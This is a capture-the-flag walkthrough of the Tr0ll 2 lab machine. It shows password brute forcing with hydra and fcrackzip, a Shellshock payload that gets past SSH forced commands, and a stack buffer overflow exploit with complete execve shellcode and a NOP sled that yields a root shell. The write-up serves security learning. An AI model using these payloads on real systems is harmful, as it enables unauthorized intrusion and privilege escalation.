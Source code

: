 # Tr0ll 2
![](https://i.imgur.com/36wunhL.png)

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/iu3UXjU.png)
Victim is `192.168.227.137`
`nmap -sS -sV -A -p- -oN NmapTr0llLv2.txt 192.168.227.137`
![](https://i.imgur.com/VL5Fd9r.png)
Here we got three port open: vsftpd 2.0.8 or later/21, OpenSSH 5.9p1/22, Apache httpd 2.2.22/80

This time, no anonymous FTP, :(
![](https://i.imgur.com/a540Rm9.png)
There's a image here.

![](https://i.imgur.com/dD6twKt.png)
With source, we might get the username: `Tr0ll`, then we need to dig deeper to find the password.

Let's check `robots.txt`.
![](https://i.imgur.com/qZNxeaE.png)

Okay, we got a list.
![](https://i.imgur.com/Hu1Bx71.png)

There's a lot of image, and some url just not existed.
![](https://i.imgur.com/R79t21m.png)

There's only one pic size diff from others, from `/dont_bother`.
![](https://i.imgur.com/N6wGZnB.png)

`file`, `binwalk`, `strings`, `foremost`, give it a stego suite check, then we find `strings` with some message.
![](https://i.imgur.com/t6oanWV.png)

Again, this might point ot a URL.
![](https://i.imgur.com/vDnzF4K.png)

![](https://i.imgur.com/gGfQAKD.png)
Here we go.

`cat answer.txt | base64 -d > decoded.txt`
![](https://i.imgur.com/etissIu.png)
Seems these dictionary repeat twice, `uniq -u decoded.txt > uniq.txt`.

Now we got a password list, let's use it to try FTP first.
`hydra -l Tr0ll -P decoded.txt 192.168.227.137 ftp`

The result is Nope, maybe more simple like AC = PW, and the list will be other used.

Then I try empty password on FTP, failed either. But AC = PW works.
![](https://i.imgur.com/0r6XPnD.png)

There's only one file under directory, `get lmao.zip` and try it with previous list.

Use the uniq list to unzip the compressed file: `fcrackzip -u -D -p uniq.txt lmao.zip`
![](https://i.imgur.com/FOogyC7.png)

Then unzip it: `unzip lmao.zip`
![](https://i.imgur.com/g6XjgfL.png)

Then we got a RSA SSH key here, that means we can use it to SSH connect to target with `-i` premeter with AC = `noob`.
![](https://i.imgur.com/j5jHJuJ.png)

However, the connection still denied by server. That's not the stadard message with wrong key or auth, there's comething behind auth and kicks me off.
![](https://i.imgur.com/9r2gv9o.png)

Turn on the ssh verbose mode to debug:`ssh -v noob@192.168.227.137 -i noob`
![](https://i.imgur.com/iASJeVt.png)
![](https://i.imgur.com/TZQrQoy.png)
Compare to normal ssh login message in dpwwn03, there's something strange.
```
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
```

I thought it doessn't set shell property for this account, so I try: `ssh -v noob@192.168.227.137 -i noob /bin/sh`, however, that still not the answer.

After all, I found some writeup point the hint about shellshock which we been used in SickOS1.1, but it's little bit different in ssh.
https://resources.infosecinstitute.com/practical-shellshock-exploitation-part-2/#gref

In order for our exploit to work, the following are the requirements:
* Obviously, a vulnerable bash shell (below 4.3)
* User must be authenticated using 'authorization_keys'
* User must be restricted to run some specific commands.

According to article, the vuln is due to the default commands append in /.ssh/authorized_keys on target with vuln bash(just guess, hope it's there), which also blocked our access to the target.

Now, use shellshock payload to bypass the commands: `ssh -v noob@192.168.227.137 -i noob '() { :;}; /bin/sh'`
Careful about the payload's space and quote.

![](https://i.imgur.com/nIvle19.png)
We in.

Settup a python pty for better UX. `python -c 'import pty;pty.spawn("/bin/bash")'`
If you need, folow this article to set up for more:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

Checking for files where SUID bit is set:
`find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`
http://man7.org/linux/man-pages/man1/find.1.html
> * -perm -mode : All of the permission bits mode are set for the file.
> * g=s : The letter s denotes that the setuid (or setgid, depending on the column) bit is set. When an executable is setuid, it runs as the user who owns the executable file instead of the user who invoked the program.
> * -o : or
> * 4000 : SUID.
> * ! expr True if expr is false.  This character will also usually need protection from interpretation by the shell.
> * -type l: type command, l stand for symbolic links.
> * {} : expands to the filename of each file or directory found.
> * \; : end -exec command.

![](https://i.imgur.com/p0VVoAn.png)
We got lot of hits. Interesting ones are series doors under `/nothing_to_see_here/choose_wisely`.

![](https://i.imgur.com/XiCYjkl.png)
After I access to door1, there's echo system here, which might contain the BoF vuln in it.

`./r00t $(python -c 'print "A"*500')`
![](https://i.imgur.com/RcKfUAO.png)

File missing...
I switch to door2, file is there.
![](https://i.imgur.com/EUB1oBE.png)

Ok, there's really a segmentation fault.
![](https://i.imgur.com/8DH98rx.png)
`strcpy()` always caome with problem.

Generate a payload.
https://github.com/Svenito/exploit-pattern
Or pattern_create in peda/msf.
Pass the python script with `chmod +x` to `/bin`
![](https://i.imgur.com/B0dSxTF.png)

Now, try to use pattern to locate the BoF point.
![](https://i.imgur.com/F0OOM59.png)
Ok, door2's `r00t` also disappeared, and `r00t` in door3 terminate the ssh session.

![](https://i.imgur.com/PZ975sD.png)
Seems the binary in these door will be swapped by cron?
Another `r00t` wil limit the command I can use.

![](https://i.imgur.com/OuUlUl0.png)
`file` the vinary before exec it, the right `r00t` buildID might start with `0x438546c5`

![](https://i.imgur.com/UqHxdVF.png)
We got the `EIP` value here, use pattern again to find the offset number.

![](https://i.imgur.com/rpAm3xw.png)
268, let's make EIP point to the ESP value where our shellcode locate.

If binary miss, change directory out and back.

As https://resources.infosecinstitute.com/vulnhub-machines-walkthrough-series-tr0ll-2/#gref mention:
> It’s very important to note that OS loader places the environment variable before stack areas that vary, so it will directly affect the ESP address. Also, how the program is invoked is very important.
> Below we try invocation with env and unsetting LINES and COLUMNS. We got the ESP address below...

That's really important skill to use GDB solve a PoE binary challenge. But, in this challenge, according to there's no limit in input buffer, you can also simply increase your `NOP` section to increase the hit rate, instead of get the real $ESP address.

```
env - gdb r00t
show env
unset env LINES
unset env COLUMNS
r $(python -c 'print "A"*268 + "B"*4 + "\x90"*100 + "C"*100')
```
![](https://i.imgur.com/aKRu4VD.png)
`x/500x $esp`
![](https://i.imgur.com/NkalEjB.png)
![](https://i.imgur.com/hrrR7hS.png)
![](https://i.imgur.com/f7eZeR5.png)
Get Shellcode from shell-storm:
http://shell-storm.org/shellcode/
![](https://i.imgur.com/fVi2zQE.png)

With Linux x86, I found this: 
http://shell-storm.org/shellcode/files/shellcode-752.php

Get $esp address:
```
r $(python -c 'print "A"*268 + "\x80\xfc\xff\xbf" + "\x90"*16 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```
Get root and cat the Proof.txt.
![](https://i.imgur.com/avDIzX3.png)

Increase `NOP` section:
```
$(python -c 'print "A"*268 + "\x10\xff\xff\xbf" + "\x90"*400 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```
![](https://i.imgur.com/qlX6YOf.png)

